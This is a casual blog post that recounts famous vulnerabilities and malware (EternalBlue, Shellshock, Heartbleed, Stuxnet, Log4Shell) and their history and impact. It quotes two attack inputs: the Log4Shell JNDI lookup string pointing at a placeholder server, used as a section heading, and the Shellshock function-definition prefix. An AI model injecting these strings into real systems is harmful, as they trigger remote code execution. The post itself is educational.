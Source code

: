 ```yaml
---
title: "Vulnerabilities and Exploits"
date: 2022-10-05T17:13:41+01:00
draft: false
---
```


I hope you Googled both concepts already because I won't define them or give you the differences between them. I consider you know what vulnerabilities and exploits are, so I will just talk about my "favorite" ones. I wanna talk about my favorite cybersecurity mistakes, bugs vulnerabilities, payloads, viruses, data breaches...The best epic fails, biggest wins or just some funny stuff from cybersecurity history.

## [Blue](](https://en.wikipedia.org/wiki/EternalBlue))

(CVE-2017-0144)

{{< image src="https://tryhackme-images.s3.amazonaws.com/room-icons/7717bbc69c486931e503a74f3192a4d8.gif" alt="blue-thm" style="width: 200px;" >}}


Do you know `Eternalblue`? I love everything about this vulnerability/exploit (there is some ambiguity in the name). How it led to the [wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) fiasco, how it is actually easy to use, and how it made microsoft look bad for a moment. 2017 was so wild! The exploit was developed by NSA and leaked by "the shadow brokers" hacking group in 2017. Eternalblue is actually a high/critical Arbitrary code execution vulnerability in Microsoft SMBv1 server (windows XP, Server 2008 and even windows 10) that usually run on port 445 (samba). To understand more how it works you can check [here](https://research.checkpoint.com/2017/eternalblue-everything-know/). There is a familly of similar names given to payloads used (EternalChampion, EternalSynergy, EternalRomance...). Microsoft released a security patch (MS17-010) to fix it but people didn't care much before their data got involved (wanna cry?). Then microsoft said: "f*ck 'em! we gonna force them to update the whole OS", then relaesed a fix for all their old windows versions. The damage caused by this vulnerability is mostly due to it's exploitation by ransomwares (wannacry, adylkuzz, notpetya...). According to Avast wannacry spread at a rate of 10,000 devices per hour, infecting over 230,000 Windows PCs across 150 countries in a single day. Estimates put the cost of NotPetya at over $10 billion in damages and WannaCry at around $4 billion in damages. We can all agree this one was huge! And if you think We are done with eternalblue well you're wrong. The incident is mostly mitigated but the menace is still there. You better have a decent antivirus and keep your OS up to date.


## ["Like a turtle in a hurricane"](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

(CVE-2014-6271)

{{< image src="https://upload.wikimedia.org/wikipedia/commons/thumb/7/7c/Shellshock-bug.svg/180px-Shellshock-bug.svg.png" alt="shellshock-wiki" width=200 >}}

`Shellshock` aka bashdoor, it's Also a familly of epic vulnerabilities. This time we go back to 2014, and the victim this time is good ol' BASH itself. It was discovered by the security researcher Stephane Chazelas at Akamai firm. It's a critical Arbitrary code execution bug that affects GNU Bash versions from 1.14 to 4.3 (Unix, so Linux and MacOS mostly). Once again it is ridiculously easy to exploit thus very dangerous. Basically if characters  like `"{:;};”` are included as function definition any code inserted at the end of that definition is processed. In even simpler words, if any special characters are added on a few shell commands at the end of that definition those commands are executed. You can learn more [here](https://blog.cloudflare.com/inside-shellshock/). Within an hour of the announcement of the vulnerability, there were reports of machines being compromised by it. By September 2014, botnets based on computers compromised with exploits based on the bug were used in denial-of-service (DDoS) attacks and vulnerability scanning. Billion of devices around the world were suspected to be affected. Multiples patches have been released to fix the bug. Note that this bug was unnoticed for 25 years. Now go update all your firmware and OS and install those annoying security updates.


## ["Does it have a pulse?"](https://heartbleed.com/) 

(CVE-2014-0160)

{{< image src="https://upload.wikimedia.org/wikipedia/commons/thumb/d/dc/Heartbleed.svg/170px-Heartbleed.svg.png" alt="heartbleed-wiki" width=250 >}}

First of all, the name `Heartbleed` is cool AF! This bug was compared to shellshock because of it's severity, but actually there are many differences. According to wikipedia this one affects the OpenSSL cryptography library, which is a widely used implementation of the Transport Layer Security (TLS) protocol. It was introduced into the software in 2012 and publicly disclosed in April 2014 by security engineers. Heartbleed could be exploited regardless of whether the vulnerable OpenSSL instance is running as a TLS server or client. It resulted from improper input validation (due to a missing bounds check) in the implementation of the TLS heartbeat extension. Thus, the bug's name derived from heartbeat. The vulnerability was classified as a buffer over-read, a situation where more data can be read than should be allowed. A fix was available the same day of disclosure (7 April 2014), but according to shodan  nearly 180,000 internet-connected devices were still vulnerable in July 2017. The data obtained by a Heartbleed attack may include unencrypted exchanges between TLS parties likely to be confidential, including any form post data in users' requests. Moreover, the confidential data exposed could include authentication secrets such as session cookies and passwords, which might allow attackers to impersonate a user of the service. OpenSSL 1.0.1g has been released to address this vulnerability. Any keys generated with a vulnerable version of OpenSSL should be considered compromised and regenerated and deployed after the patch has been applied. US-CERT recommends system administrators consider implementing "Perfect Forward Secrecy" to mitigate the damage that may be caused by future private key disclosures.

## ["Countdown to zero day"](https://en.wikipedia.org/wiki/Stuxnet)

{{< image src="https://upload.wikimedia.org/wikipedia/commons/thumb/4/49/StuxNet_1.png/220px-StuxNet_1.png" alt="stuxnet-wiki" width=250 >}}

This one is a "virus" (ITS A WORM) called `stuxnet`. Wikipedia said that Stuxnet is a malicious computer worm first uncovered in 2010 and thought to have been in development since at least 2005. Stuxnet targets supervisory control and data acquisition (SCADA) systems and is believed to be responsible for causing substantial damage to the nuclear program of Iran. The worm is widely understood to be a cyberweapon built jointly by the United States and Israel in a collaborative effort known as Operation Olympic Games. Now I am not very interrested in the "politics" parts, so basically Stuxnet has three modules: a worm that executes all routines related to the main payload of the attack, a link file that automatically executes the propagated copies of the worm, and a rootkit component responsible for hiding all malicious files and processes, to prevent detection of Stuxnet. It is typically introduced to the target environment via an infected USB flash drive, thus crossing any air gap. The worm then propagates across the network, scanning for Siemens Step7 software on computers controlling a PLC. In the absence of either criterion, Stuxnet becomes dormant inside the computer. If both the conditions are fulfilled, Stuxnet introduces the infected rootkit onto the PLC and Step7 software, modifying the code and giving unexpected commands to the PLC while returning a loop of normal operation system values back to the users. This one was able to cause not only software infection but actual PHYSICAL damage too. There are many similar malware related to stuxnet (Duqu, Flame, Petya...), and stuxnet is also present in pop culture with many books, movies, videogames... about it. You can trust any decent antivirus to protect you today, but keep in mind that stuxnet is still alive! 

## ["${jndi:ldap://ip:p/pld}"](https://en.wikipedia.org/wiki/Log4Shell)

(CVE-2021-44228)

{{< image src="https://assets.tryhackme.com/room-banners/log4j-banner.png" alt="stuxnet-wiki" width=250 >}}

`Log4Shell` is a critical arbitrary code execution vulnerability in Log4j, a popular Java logging framework. The vulnerability had existed unnoticed since 2013 and was privately disclosed to the Apache Software Foundation on 24 November 2021. Before an official CVE identifier was made available on December 10th, 2021, the vulnerability circulated by the name "Log4Shell". Apache gave Log4Shell a CVSS severity rating of 10, the highest available score. The exploit is simple to execute and is estimated to affect hundreds of millions of devices. The vulnerability takes advantage of Log4j's allowing requests to arbitrary LDAP and JNDI servers, allowing attackers to execute arbitrary Java code on a server or other computer, or leak sensitive information. Amazon Web Services,Cloudflare, iCloud, Minecraft: Java Edition,Steam, Tencent QQ and many others were affected. The vulnerability's disclosure received strong reactions from cybersecurity experts. Cybersecurity company Tenable said the exploit was "the single biggest, most critical vulnerability ever", Ars Technica called it "arguably the most severe vulnerability ever" and The Washington Post said that descriptions by security professionals "border on the apocalyptic". Fixes for this vulnerability were released on 6 December 2021, three days before the vulnerability was published, in Log4j version 2.15.0-rc1. The fix included restricting the servers and protocols that may be used for lookups. Researchers discovered a related bug, CVE-2021-45046, that allows local or remote code execution in certain non-default configurations and was fixed in version 2.16.0, which disabled all features using JNDI and support for message lookups. Two more vulnerabilities in the library were found. Also several methods and tools have been published that help detect vulnerable Log4j versions used in built Java packages.


## Others

There are too many I discovered during my journey, and still discovering, so here are those I also like but could not talk about:
- [Brain](https://en.wikipedia.org/wiki/Brain_(computer_virus))
- [The Creeper](https://en.wikipedia.org/wiki/Creeper_and_Reaper)
- [Pegasus](https://en.wikipedia.org/wiki/Pegasus_(spyware))
- [Zerologon](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)

I might add more later
